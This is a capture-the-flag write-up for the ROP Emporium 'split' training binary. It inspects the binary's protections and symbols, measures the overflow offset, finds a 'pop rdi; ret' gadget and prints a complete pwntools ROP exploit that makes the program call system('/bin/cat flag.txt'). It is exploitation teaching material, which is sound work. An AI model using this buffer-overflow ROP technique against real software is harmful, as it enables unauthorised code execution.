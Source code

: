 First of all, use checksec to get some binary information

```
[marco@marco-pc Downloads]$ file split
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8cbc19d1114b70bce2305f7ded9e7dd4d2e28069, not stripped
[marco@marco-pc Downloads]$ checksec --file=split
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   78 Symbols     No	0		3	split
```

The file is not stripped, so let's use objdump and gdb (with pwndbg) to get some information from symbol table


```
[marco@marco-pc Downloads]$ objdump -t split
...
00000000004007b5 l     F .text	0000000000000052              pwnme
...
0000000000400807 l     F .text	0000000000000011              usefulFunction
...
0000000000601060 g     O .data	000000000000001a              usefulString
```

There are some interesting stuff:
- pwnme, which is called from main, print some strings and get an input;
- usefulFunction perfom a system comand "/bin/ls"
- usefulString is "/bin/cat flag.txt"

```
pwndbg> disassemble usefulFunction 
Dump of assembler code for function usefulFunction:
   0x0000000000400807 <+0>:	push   rbp
   0x0000000000400808 <+1>:	mov    rbp,rsp
   0x000000000040080b <+4>:	mov    edi,0x4008ff
   0x0000000000400810 <+9>:	call   0x4005e0 <system@plt>
   0x0000000000400815 <+14>:	nop
   0x0000000000400816 <+15>:	pop    rbp
   0x0000000000400817 <+16>:	ret    
End of assembler dump.
pwndbg> x/s 0x4008ff
0x4008ff:	"/bin/ls"
pwndbg> x/s 0x0000000000601060
0x601060 <usefulString>:	"/bin/cat flag.txt"
```

With a buffer overflow we can control the EIP. Jumping at system@plt with usefulString as parameter, we can read the flag.
Let's find out how many bytes we need to fill until EIP

```
pwndbg> cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

...

split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

Program received signal SIGSEGV, Segmentation fault.

...

RBP  0x6161616a61616169 ('iaaajaaa')

...

pwndbg> cyclic -l 'iaaa'
32
```

Last thing we need is a *`pop rdi; ret`* gadget to pass the string as argument

```
[marco@marco-pc Downloads]$ ROPgadget --binary /home/marco/Downloads/split > /home/marco/Downloads/gadget
[marco@marco-pc Downloads]$ cat /home/marco/Downloads/gadget | grep "pop rdi"
0x0000000000400883 : pop rdi ; ret
```

Final exploit:

NOTE: Remember to add 8 at 32 ( 32 buffer + 8 RBP ).

```python
  1 from pwn import *
  2 
  3 system_addr = 0x4005e0
  4 string_addr = 0x0000000000601060
  5 pop_rdi = 0x0000000000400883
  6 
  7 expl = ("A"*40).encode()
  8 expl += p64(pop_rdi)
  9 expl += p64(string_addr)
 10 expl += p64(system_addr)
 11 
 12 p = process('./split')
 13 p.recvuntil('>')
 14 p.sendline(expl)
 15 p.interactive()

```
